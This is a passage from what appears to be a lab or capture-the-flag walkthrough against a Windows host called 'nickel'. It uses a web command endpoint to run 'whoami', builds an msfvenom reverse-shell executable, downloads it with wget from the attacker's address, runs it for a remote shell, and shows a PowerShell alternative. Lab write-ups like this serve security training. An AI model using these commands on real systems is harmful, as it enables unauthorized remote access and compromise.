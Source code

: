Now we can access the command endpoint:
```
curl http://localhost:80/?whoami
```
![](../attachment/bb1e354861598e2048631cc65b1c8ef5.png)

We have system.

Now making a reverse shell:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=3001 -f exe -o shell.exe
```
And transfer via ssh shell:
```
wget http://192.168.45.236:8000/shell.exe -o shell.exe
```
![](../attachment/94ab87ae78c83d637bca46927e3731ec.png)
Now we can run it:
```
curl http://localhost:80/?C:/temp/shell.exe
```
![](../attachment/a3ebad66e0051b1db56487cb14cf0f21.png)![](../attachment/cddfd243bea8723a6986e7afe1279197.png)

# Alternate (easier)

```
$Resp = iwr 'http://nickel/?whoami' -UseBasicParsing
$Resp.RawContent
```
![](../attachment/3d28094215db87f87620ca554885cd20.png)
